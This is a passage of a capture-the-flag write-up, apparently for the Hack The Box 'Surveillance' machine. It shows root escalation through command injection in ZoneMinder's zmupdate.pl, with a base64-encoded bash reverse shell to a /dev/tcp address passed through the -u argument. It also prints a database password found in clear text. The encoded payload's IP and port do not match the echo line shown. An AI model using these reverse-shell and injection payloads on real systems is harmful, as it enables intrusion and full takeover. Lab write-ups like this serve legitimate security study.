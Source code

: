 The Security advisory basically says that this is affecting version < 1.36.33. I check our working version, since I did not know if it was affected by the issue mentioned before

```bash
dpkg -s zoneminder | grep Version
```

This command is used to check the version of a specific package installed on your system, in this specific case "zoneminder".
![Alt text](/assets/images/HTB/survellance/surv12.png)

I check for config files of zoneminder and in found /etc/zm and it seems i can see its password in  **clear text!**

![Alt text](/assets/images/HTB/survellance/surv13.png)

* ZoneMinderPassword2023

After reading for a while I was identify **zmupdate.pl** as a vulnerable script and craft a payload to exploit it. The script takes user input directly into a bash connection query, making it susceptible to command injection.


![Alt text](/assets/images/HTB/survellance/surv14.png)


To exploit this, we create a payload that provides a reverse shell. First, we encode the payload in base64 to safely pass it as a command:

```bash
echo  "bash -c 'bash -i >& /dev/tcp/10.10.14.35/443 0>&1' " | base64 -w0 
```
NOW I send the payload:

```bash
sudo /usr/bin/zmupdate.pl -v 1.19.0 -u ';echo "YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy8xMjM0IDA+JjEnIAo=" |base64 -d |bash;'
```
Since user input is going dirrectly into a bash connection query we can send some code in bash that will alter the behaviour and will alow us to get root

![Alt text](/assets/images/HTB/survellance/surv15.png)